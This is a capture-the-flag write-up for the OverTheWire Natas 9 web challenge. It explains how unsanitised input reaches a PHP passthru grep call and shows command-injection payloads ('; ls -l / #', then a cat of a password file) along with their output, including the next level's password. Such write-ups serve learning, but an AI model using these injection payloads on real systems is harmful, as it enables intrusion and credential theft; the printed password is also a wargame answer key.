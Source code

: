 # [Natas 9](http://overthewire.org/wargames/natas/natas9.html "Natas 9 Web Challenge Page")


We use the password from the previous challenge to log into Natas 9. After logging in, the challenge says:

`Find words containing:`

Below the text box, there is a link to view sourcecode again! There we can see that the challenge is using a passthru command with an unsantized $key value (which we control, using the text box). That sounds like RCE (Remote Code Execution) to me! :D

I figured the best way to test for the RCE would be end the statemeng, and then try to list out some file, and comment out the rest of the command. `; ls -l / # ` Should be input into the box to test that. 

```
total 7957
-rw-r--r--   1 root root    2797 Nov  4  2015 README.txt
lrwxrwxrwx   1 root root      15 Nov 14  2014 behemoth -> /games/behemoth
drwxr-xr-x   2 root root    4096 Apr 15 07:07 bin
drwxr-xr-x   2 root root    4096 Apr 20  2014 boot
drwxr-xr-x  12 root root   13680 Jul  4 13:13 dev
drwxr-xr-x   7 root root    4096 Jan 12  2015 drifter
lrwxrwxrwx   1 root root      11 Nov 14  2014 eloi -> /games/eloi
drwxr-xr-x 108 root root    4096 Jul 12 20:44 etc
drwxr-xr-x  11 root root    1024 Mar 18  2015 games
drwxr-xr-x 172 root root    4096 Jul 10 14:12 home
lrwxrwxrwx   1 root root      14 Nov 14  2014 krypton -> /games/krypton
drwxr-xr-x  18 root root    4096 Jun 10 12:34 lib
drwxr-xr-x   2 root root    4096 Jun 10 12:34 lib32
drwxr-xr-x   2 root root    4096 Jun 10 12:34 lib64
drwxr-xr-x   2 root root    4096 Jun 10 12:34 libx32
drwx------   2 root root   16384 Apr 20  2014 lost+found
lrwxrwxrwx   1 root root      14 Nov 14  2014 manpage -> /games/manpage
lrwxrwxrwx   1 root root      11 Nov 14  2014 maze -> /games/maze
drwxr-xr-x   3 root root    4096 Apr 20  2014 media
drwxr-xr-x   2 root root    4096 Apr 10  2014 mnt
lrwxrwxrwx   1 root root      13 Nov 14  2014 narnia -> /games/narnia
drwxr-xr-x   2 root root    4096 Apr 16  2014 opt
dr-xr-xr-x 446 root root       0 Jul  4 13:12 proc
drwx------  11 root root    4096 Jul 10 14:12 root
drwxr-xr-x  18 root root     680 Jul 13 00:54 run
drwxr-xr-x   2 root root   12288 Jun 26 13:59 sbin
lrwxrwxrwx   1 root root      13 Nov 14  2014 semtex -> /games/semtex
drwxr-xr-x   2 root root    4096 Apr 16  2014 srv
dr-xr-xr-x  13 root root       0 Jul  4 15:15 sys
drwxrwx-wt   1 root root 8036352 Jul 13 00:54 tmp
drwxr-xr-x  12 root root    4096 Nov 14  2014 usr
lrwxrwxrwx   1 root root      13 Nov 14  2014 utumno -> /games/utumno
drwxr-xr-x  15 root root    4096 Nov 14  2014 var
lrwxrwxrwx   1 root root      13 Nov 14  2014 vortex -> /games/vortex
```

The above is the output of the command. Now using the clue they gave us on the homepage (where each user's password resides on the system), we can not attempt to leak the password!

`; cat /etc/natas_webpass/natas10 #`

Was the command I used, and the output was `nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`

With that password, we can now log into [Natas10](https://github.com/ProDigySML/Security-Writeups/blob/master/Natas%20Writeups/Natas10 "Natas 10")

The passthru command in the challenge: `passthru("grep -i $key dictionary.txt");`
